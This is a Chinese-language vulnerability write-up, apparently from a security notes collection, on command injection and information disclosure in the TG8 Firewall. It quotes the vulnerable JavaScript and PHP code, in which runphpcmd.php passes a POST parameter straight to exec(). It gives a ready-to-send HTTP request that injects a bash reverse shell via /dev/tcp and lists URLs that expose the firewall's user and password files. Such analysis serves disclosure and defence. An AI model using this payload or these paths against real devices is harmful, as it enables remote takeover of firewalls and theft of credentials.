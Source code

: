  漏洞描述

TG8 Firewall RCE 和 信息泄露

 漏洞影响

TG8防火墙

 代码审计

该漏洞原因为在index.php文件中调用了runphpcmd.php，其中一行代码为
```
'sudo /home/TG8/v3/syscmd/check_gui_login.sh ' + username + ' ' + pass;
```
从以上可以看到以sudo来调用cmd，显然这里我们可以进行替换，进行任意命令执行。但是我们还有看一下runphpcmd.php里面是否有对其的限制和过滤，runphpcmd.php源码为：
```
function checkLogin() {
var username = $('input[name=u]').val();
var pass = $('input[name=p]').val();
var cmd = 'sudo /home/TG8/v3/syscmd/check_gui_login.sh ' + username + ' ' + pass;
    $.ajax({
url: "runphpcmd.php",
type: "post",
dataType: "json",
cache: "false",
data: {
syscmd: cmd
      },
success: function (x) {
if (x == 'OK') {
          ok(username);
        } else {
          failed();
        }
      },
error: function () {
      ok(username);
// alert("failure to excute the command");
      }
    })
  }
```
从以上源码可以看出来，并没有对syscmd的内容进行验证，结果直接就以json格式返回给调用者。
```
<?php
  header('Content-Type: application/json');
  $response= array();
  $output= array();
  $cmd_1 = $_POST['syscmd'];
  $data = 'cmd= '.$cmd_1."\n";
  $fp = fopen('/opt/phpJS.log', 'a');
  fwrite($fp, $data);
  exec($cmd_1,$output,$ret);
  $data = ' output ='. json_encode($output)."\n*******************************************************\n";
  $fp = fopen('/opt/phpJS.log', 'a');
  fwrite($fp, $data);
  $response[] = array("result" => $output);
// Encoding array in JSON format
echo json_encode($output);
?>
```
所以我们就可以构造payload了，如下：
```
POST /admin/runphpcmd.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 68
Connection: keep-alive
syscmd=sudo+%2Fhome%2FTG8%2Fv3%2Fsyscmd%2Fcheck_gui_login.sh+%3Bbash%2F-i%2F>&%2F/dev/tcp/127.0.0.1/10086%2F0>&1%3B++local
```
空格用%2f替换，‘;’用%3B替换

##2、信息泄露
任何用户都可以通过访问以下url路径来枚举防火墙的用户和密码信息。
```
http://127.0.0.1/data/w-341.tg
http://127.0.0.1/data/w-342.tg
http://127.0.0.1/data/r-341.tg
http://127.0.0.1/data/r-342.tg
```